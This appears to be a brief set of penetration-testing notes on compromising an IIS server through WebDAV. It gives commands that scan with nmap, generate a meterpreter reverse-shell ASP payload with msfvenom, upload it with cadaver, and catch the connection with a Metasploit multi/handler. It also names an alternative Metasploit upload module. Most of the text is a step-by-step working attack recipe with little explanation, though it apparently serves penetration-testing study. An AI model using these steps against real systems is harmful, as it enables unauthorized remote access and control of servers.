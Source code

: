 nmap --script=http-enum

mafvenom will creat our reverse shell :
we will choose our : 
- our payload
- our local host 
- our local port that will listen on
- our type of file depends on what a target accept for eample IIS is asp 

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

cadaver we can upload our shell: 
cadaver http://IP/webdav
put shell 

we need to start listener using Metasploit:

- service postgresql start
- Metasploit -> use /multi/handler
- set payload  /reverse_tcp
- add other information ip/port

meterpreter commands 
sysinfo 
getuid

another way:

search iis upload iis/iis_webdav_upload_asp 
add username
add password
set path /webdav/meta.asp 
set Local IP/PORT 


